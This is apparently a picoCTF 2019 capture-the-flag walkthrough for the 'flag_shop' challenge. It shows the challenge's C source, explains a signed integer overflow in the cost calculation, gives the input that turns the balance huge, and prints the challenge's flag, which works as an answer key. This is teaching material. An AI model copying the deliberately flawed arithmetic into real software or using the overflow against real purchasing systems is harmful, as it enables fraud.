 # flag_shop
300 points

### Description
*"There's a flag shop selling stuff, can you buy a flag? Source. Connect with nc 2019shell1.picoctf.com 29250."*

### Solution
Before taking a look at the source code, let's run the netcat command to get a feel for the program:
```
$ nc 2019shell1.picoctf.com 29250
Welcome to the flag exchange
We sell flags

1. Check Account Balance

2. Buy Flags

3. Exit

 Enter a menu selection
 
```

Okay, let's see what each one does, starting with 1:
```
1



 Balance: 1100 


Welcome to the flag exchange
We sell flags

1. Check Account Balance

2. Buy Flags

3. Exit

 Enter a menu selection

```

We start with a balance of 1100, good to know, what about 2?
```
2
Currently for sale
1. Defintely not the flag Flag
2. 1337 Flag

```
Let's try these sequentially too, starting with 1:
```
1
These knockoff Flags cost 900 each, enter desired quantity

```

We know we can only afford 1 (you can try buying more, but it won't let you spend more than your balance):
```

The final cost is: 900

Your current balance after transaction: 200

Welcome to the flag exchange
We sell flags

1. Check Account Balance

2. Buy Flags

3. Exit

 Enter a menu selection

```

We are back at the beginning, let's go try to buy the second flag:
```
Welcome to the flag exchange
We sell flags

1. Check Account Balance

2. Buy Flags

3. Exit

 Enter a menu selection
2
Currently for sale
1. Defintely not the flag Flag
2. 1337 Flag
2
1337 flags cost 100000 dollars, and we only have 1 in stock
Enter 1 to buy one1

Not enough funds for transaction
```

At this point we can guess that the flag is in "1337 Flag", but how can we get it? Let's look at that source code now:

```c
#include <stdio.h>
#include <stdlib.h>
int main()
{
    setbuf(stdout, NULL);
    int con;
    con = 0;
    int account_balance = 1100;
    while(con == 0){
        
        printf("Welcome to the flag exchange\n");
        printf("We sell flags\n");

        printf("\n1. Check Account Balance\n");
        printf("\n2. Buy Flags\n");
        printf("\n3. Exit\n");
        int menu;
        printf("\n Enter a menu selection\n");
        fflush(stdin);
        scanf("%d", &menu);
        if(menu == 1){
            printf("\n\n\n Balance: %d \n\n\n", account_balance);
        }
        else if(menu == 2){
            printf("Currently for sale\n");
            printf("1. Defintely not the flag Flag\n");
            printf("2. 1337 Flag\n");
            int auction_choice;
            fflush(stdin);
            scanf("%d", &auction_choice);
            if(auction_choice == 1){
                printf("These knockoff Flags cost 900 each, enter desired quantity\n");
                
                int number_flags = 0;
                fflush(stdin);
                scanf("%d", &number_flags);
                if(number_flags > 0){
                    int total_cost = 0;
                    total_cost = 900*number_flags; // <--------------------------- INTEGER OVERFLOW VULNERABILITY HERE
                    printf("\nThe final cost is: %d\n", total_cost);
                    if(total_cost <= account_balance){
                        account_balance = account_balance - total_cost;
                        printf("\nYour current balance after transaction: %d\n\n", account_balance);
                    }
                    else{
                        printf("Not enough funds to complete purchase\n");
                    }
                                    
                    
                }
                    
                    
                    
                
            }
            else if(auction_choice == 2){
                printf("1337 flags cost 100000 dollars, and we only have 1 in stock\n");
                printf("Enter 1 to buy one");
                int bid = 0;
                fflush(stdin);
                scanf("%d", &bid);
                
                if(bid == 1){
                    
                    if(account_balance > 100000){
                        FILE *f = fopen("flag.txt", "r");
                        if(f == NULL){

                            printf("flag not found: please run this on the server\n");
                            exit(0);
                        }
                        char buf[64];
                        fgets(buf, 63, f);
                        printf("YOUR FLAG IS: %s\n", buf);
                        }
                    
                    else{
                        printf("\nNot enough funds for transaction\n\n\n");
                    }}

            }
        }
        else{
            con = 1;
        }

    }
    return 0;
}
```

If you look at the line I pointed out in the code, the product of 900 and `number_flags` is saved in `total_cost`. However, digned integers in C can only be 
as large as 2,147,483,647. Any larger than that, and the left-most bit of the memory bits allocated for that integer will become a 1. 

Why is this a problem? Well, modern computers represent numbers using [two's complement](https://en.wikipedia.org/wiki/Two%27s_complement). Without going 
into too much detail, this means that the left-most bit being a 1 signifies that the number is actually *negative*. If you don't know about two's complement, 
you should become familiar with it. It's an extremely important concept related to how computer's actually do mathematical operations.

So what happens if we add 1 to an `int` variable that holds 2,147,483,647? Well, it actually loops around to the largest (in magnitude) negative number available in C: -2,147,483,648. What if we subtract 1 from this new number? You guessed it, it would become 2,147,483,647.

So how does this help in this problem. Well if we can overflow `total_cost` and make it negative, then we would actually be *adding* to our balance by buying these flags. This technique is known as an [integer overflow](https://en.wikipedia.org/wiki/Integer_overflow).

We need `total_cost` to be greater than 2,147,483,647 so it will become negative. This means buying a number of flags greater than `2,147,483,647 / 900 = 2386092.94111`. To make sure this is large enough, I just rounded the number up to 2,386,100.
```
Welcome to the flag exchange
We sell flags

1. Check Account Balance

2. Buy Flags

3. Exit

 Enter a menu selection
2
Currently for sale
1. Defintely not the flag Flag
2. 1337 Flag
1
These knockoff Flags cost 900 each, enter desired quantity
2386100

The final cost is: -2147477296

Your current balance after transaction: 2147478396
```

You should be able to buy the second flag now.

<details>
  <summary>Flag:</summary>
  picoCTF{m0n3y_bag5_783740a8}
</details>

[Next Problem](https://github.com/sdvickers98/picoCTF-2019-Walkthrough/blob/master/general_skills/%2315%20-%20flag_shop.md)

[Return to General Skills](https://github.com/sdvickers98/picoCTF-2019-Walkthrough/blob/master/general_skills/%230%20-%20General%20Skills%20Homepage.md)

[Return to Homepage](https://github.com/sdvickers98/picoCTF-2019-Walkthrough)
